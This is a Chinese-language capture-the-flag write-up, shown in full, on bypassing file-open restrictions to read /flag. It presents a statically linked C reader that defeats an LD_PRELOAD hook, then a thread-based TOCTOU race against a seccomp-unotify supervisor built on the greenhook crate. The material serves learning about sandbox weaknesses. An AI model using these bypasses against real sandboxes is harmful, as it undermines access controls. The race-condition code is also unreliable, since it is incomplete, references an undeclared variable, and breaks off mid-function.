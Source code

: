 第三题脚本是从 [GitHub](https://github.com/MaxXor/raw-sockets-example) 上找的代码(GPL-3.0 license)并进行修改的, 参见 [raw_socket](raw_socket.c).

## 为什么要打开 /flag 😡
### LD_PRELOAD, love!

直接上静态编译, 完事.

```C
#include <stdio.h>

int main() {
    FILE *ptr;
    char buf[2048];
    int len = 0;
    ptr = fopen("/flag", "r");
    len = fread(buf, 1, 2048, ptr);
    buf[len] = 0;
    fclose(ptr);
    printf("%s", buf);
    return 0;
}
```
```Bash
gcc -static -o main ./main.c
```

### <del>都是 seccomp 的错</del>

阅读 main.rs, 发现给了我们提示 [greenhook crate](https://crates.io/crates/greenhook), Ctrl+鼠标左键点开网页查看, 发现是 Hook Syscall 的框架, 并且在文章最底下发现 Limitation.

> ## Limitation
>
> 1. Your hook functions are executed by supervisor process (thread), not supervised one! This means that you may find difficulties when you need to do something on behalf of supervised process.
> 2. Be careful of TOCTOU attack! Seccomp unotify will NOT stop whole process when handling syscalls, so it is possible that the supervised process may change the syscall arguments after supervisor has checked them, and `continue_syscall` can be dangerous (thus it is marked as `unsafe` here).
> 3. Handling signals could be troublesome. It is possible that signals can interrupt syscalls or restart them, but supervisor has no knowledge of this. Try to check request validity in your functions to alleviate this problem. For more information please read `seccomp_unotify(2)`.

第一条和第三条在阅读题目所给源代码后发现似乎无法利用, 于是编写利用第二条的程序.

```cpp
#include <unistd.h>
#include <string.h>
#include <pthread.h>

char path[100] = "/fack";

void changePath()
{
    usleep(300);
    strcpy(path, "/flag");
}
int main()
{
    pthread_create(a, NULL, (void *)changePath, NULL);

    FILE *fp;
    char buffer[80];
    fp = popen(path, "r");
    fgets(buffer, sizeof(buffer), fp);
    printf("%s", buffer);
```